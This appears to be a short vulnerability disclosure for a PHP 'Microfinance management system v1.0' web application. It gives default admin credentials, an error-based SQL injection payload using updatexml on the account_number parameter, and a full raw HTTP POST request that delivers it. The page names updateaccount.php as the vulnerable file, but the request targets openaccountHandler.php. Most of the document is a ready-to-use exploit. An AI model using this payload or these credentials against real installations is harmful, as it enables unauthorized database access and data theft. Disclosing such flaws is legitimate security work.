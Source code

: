 # Microfinance management system v1.0 - SQL injection

### username:admin password:123456 ----> {ip}/login.php

Supplier:https://www.sourcecodester.com/php/14822/microfinance-management-system.html

 /updateaccount.php has SQL injectiond

Payload:account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+

SQL injection because 'account_ number' parameter can be controlled

```
POST /cms001/app/openaccountHandler.php HTTP/1.1
Host: 192.168.0.196
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4476.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Origin: http://192.168.0.196
Connection: close
Referer: http://192.168.0.196/cms001/updateaccount.php
Cookie: PHPSESSID=jl7s46ab2lmjcsjbb8ihlu3kq2
Upgrade-Insecure-Requests: 1

account_number=' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+=&customer=Select+one&account_type=Select+one&account_status=Select+one&update_account=
```

![1](/img/1.png)

![3](/img/3.png)

![2](/img/2.png)

